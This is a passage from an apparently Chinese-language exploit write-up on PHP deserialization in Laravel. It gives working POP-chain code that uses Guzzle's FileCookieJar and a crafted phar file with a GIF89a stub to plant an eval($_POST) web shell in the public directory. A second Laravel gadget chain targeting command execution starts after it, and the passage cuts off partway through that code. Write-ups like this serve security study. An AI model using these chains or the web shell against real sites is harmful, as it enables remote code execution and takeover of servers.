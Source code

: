 

## POP链2

用 FileCookieJar 进行文件上传

```
&lt;?php

namespace`{`
    require "./autoload.php";  // 取决于你 exp.php 的存放位置
    $a = new \GuzzleHttp\Cookie\FileCookieJar("./ricky.php");
    $a-&gt;setCookie(new \GuzzleHttp\Cookie\SetCookie([
        'Name'=&gt;'ricky',
        'Domain'=&gt; "&lt;?php phpinfo();eval(\$_POST[ricky]);?&gt;",
        'Expires'=&gt;123,
        'Value'=&gt;123
    ]));

    $phar = new Phar("ricky2.phar"); //生成phar文件
    $phar-&gt;startBuffering();
    $phar-&gt;setStub('GIF89a'.'&lt;?php __HALT_COMPILER(); ? &gt;');
    $phar-&gt;setMetadata($a); //触发头是C1e4r类
    $phar-&gt;addFromString("test.txt", "test"); //生成签名
    $phar-&gt;stopBuffering();
`}`
```

按照上面的步骤执行 phar 反序列化在 public 目录下生成 shell, 即可执行

[![](https://p2.ssl.qhimg.com/t016a16c1f3382b0ec9.png)](https://p2.ssl.qhimg.com/t016a16c1f3382b0ec9.png)



## POP链3

尝试直接命令执行的类, 有之前就出现在 laravel5 反序列化中的 `EvalLoader` 类, 建立 phar 反序列化

```
&lt;?php

namespace Illuminate\Broadcasting`{`
    class PendingBroadcast `{`
        protected $events;
        protected $event;
        public function __construct($events, $event) `{`
            $this-&gt;events=$events;
            $this-&gt;event=$event;
        `}`
    `}`
`}`

namespace Illuminate\Foundation\Console `{`
    class QueuedCommand
    `{`
        public $connection;
        public function __construct($connection) `{`
            $this-&gt;connection = $connection;
        `}`
    `}`
`}`

namespace Illuminate\Bus `{`
    class Dispatcher `{`
        protected $queueResolver;
        public function __construct($queueResolver)`{`
```